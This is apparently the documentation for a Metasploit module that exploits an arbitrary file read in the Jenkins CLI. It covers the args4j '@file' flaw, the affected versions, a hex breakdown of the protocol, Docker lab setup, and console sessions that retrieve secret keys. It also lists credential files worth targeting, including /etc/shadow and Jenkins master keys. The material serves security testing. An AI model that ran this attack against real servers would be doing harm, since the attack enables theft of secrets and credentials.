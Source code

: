 ## Vulnerable Application

This module utilizes the Jenkins cli protocol to run the `help` command.
The cli is accessible with read-only permissions by default, which are
all thats required.

Jenkins cli utilizes `args4j's` `parseArgument`, which calls `expandAtFiles` to
replace any `@<filename>` with the contents of a file. We are then able to retrieve
the error message to read up to the first two lines of a file.

Exploitation by hand can be done with the cli, see markdown documents for additional
instructions.

There are a few exploitation oddities:
1. The injection point for the `help` command requires 2 input arguments.
When the `expandAtFiles` is called, each line of the `FILE_PATH` becomes an input argument.
If a file only contains one line, it will throw an error: `ERROR: You must authenticate to access this Jenkins.`
However, we can pad out the content by supplying a first argument.
2. There is a strange timing requirement where the `download` (or first) request must get
to the server first, but the `upload` (or second) request must be very close behind it.
From testing against the docker image, it was found values between `.01` and `1.9` were
viable. Due to the round trip time of the first request and response happening before
request 2 would be received, it is necessary to use threading to ensure the requests
happen within rapid succession.

Files of value:

 * /var/jenkins_home/secret.key
 * /var/jenkins_home/secrets/master.key
 * /var/jenkins_home/secrets/initialAdminPassword
 * /etc/passwd
 * /etc/shadow
 * Project secrets and credentials
 * Source code, build artifacts

Vulnerable versions include:

 * < 2.442
 * LTS < 2.426.3

### Protocol Breakdown

A few samples of the protocol that was observed, how to generate it, and the breakdown of fields.
 
|                                           | **Generator**                                                                    | **Heading**                  | **Pad (1)**      | **Unknown (len(@file_name) + 2)** | **len(@file_name)** | **@** | **file_name**            | **Unknown**  | **len(encoding)** | **UTF-8**  | **Unknown**  | **len(locality)** | **en_US**  | **footer** |
|-------------------------------------------|----------------------------------------------------------------------------------|------------------------------|------------------|-------------|---------------------|-------|--------------------------|--------------|-------------------|------------|--------------|-------------------|------------|------------|
| **no pad multi line file (/tmp/file.22)** | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help "@/tmp/test.22"   | 0000000600000468656c70000000 |                  | 0f0000      | 0d                  | 40    | 2f746d702f746573742e3232 | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |
| **no pad single line file (/tmp/file.1)** | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help "@/tmp/test.1"    | 0000000600000468656c70000000 |                  | 0e0000      | 0c                  | 40    | 2f746d702f746573742e31   | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |
| **pad multi line file (/tmp/file.22)**    | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/tmp/test.22" | 0000000600000468656c70000000 | 0300000131000000 | 0f0000      | 0d                  | 40    | 2f746d702f746573742e3232 | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |
| **pad single line file (/tmp/file.1)**    | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/tmp/test.1"  | 0000000600000468656c70000000 | 0300000131000000 | 0e0000      | 0c                  | 40    | 2f746d702f746573742e31   | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |

### Docker Setup

Version 2.440: `docker run -p 8080:8080 -p 50000:50000 jenkins/jenkins:2.440-jdk17`

LTS Version 2.426.2: `docker run -p 8080:8080 -p 50000:50000 jenkins/jenkins:2.426.2-lts`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read`
1. Do: `set rhost [ip]`
1. Do: `run`
1. You should get the first two lines of the `FILE_PATH`

## Options

### FILE_PATH

File path to read from the server. Defaults to `/etc/passwd`.

Other files which may be of value:
 * `/var/jenkins_home/secret.key`
 * `/var/jenkins_home/secrets/master.key`
 * `/var/jenkins_home/secrets/initialAdminPassword`
 * `/etc/passwd`
 * `/etc/shadow`
 * Project secrets and credentials
 * Source code, build artifacts

### DELAY

Delay between first and second request to ensure first request gets there on time, but the second request is very quickly behind it.
Defaults to `0.5`

Testing against the docker image showed values between `.01` and `1.9` were successful.

### ENCODING

Encoding to use for reading the file. This may mangle binary files. Defaults to `UTF-8`

### LOCALITY

Locality to use for reading the file. This may mangle binary files. Defaults to `en_US`

## Scenarios

### jenkins 2.440-jdk17 on Docker

```
msf > use auxiliary/gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read
msf auxiliary(gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf auxiliary(gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read) > set file_path /var/jenkins_home/secrets/initialAdminPassword
file_path => /var/jenkins_home/secrets/initialAdminPassword
msf auxiliary(gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read) > run
[*] Running module against 127.0.0.1

[*] Sending requests with UUID: ed148f4d-709a-4d16-a452-4509f3a37ed6
[*] Re-attempting with padding for single line output file
[+] /var/jenkins_home/secrets/initialAdminPassword file contents retrieved (first line or 2):
f5d5f6e98e1f466aad22c0f81ca48fb0
[+] Results saved to: /root/.msf4/loot/20240130204021_default_127.0.0.1_jenkins.file_717110.txt
[*] Auxiliary module execution completed
```

### jenkins 2.426.2-lts on Docker

```
msf > use auxiliary/gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read
msf auxiliary(gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf auxiliary(gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read) > set file_path /var/jenkins_home/secret.key
file_path => /var/jenkins_home/secret.key
msf auxiliary(gather/auxiliary/gather/jenkins_cli_ampersand_arbitrary_file_read) > run
[*] Running module against 127.0.0.1

[*] Sending requests with UUID: 0d69c3f1-7695-4db1-a0c6-08108f33e339
[*] Re-attempting with padding for single line output file
[+] /var/jenkins_home/secret.key file contents retrieved (first line or 2):
6ce26592ad3683cc8d056bea07ffa2696f1b14f0db64dbd122c50ab930e279ad
[+] Results saved to: /root/.msf4/loot/20240130204241_default_127.0.0.1_jenkins.file_317409.txt
[*] Auxiliary module execution completed
```
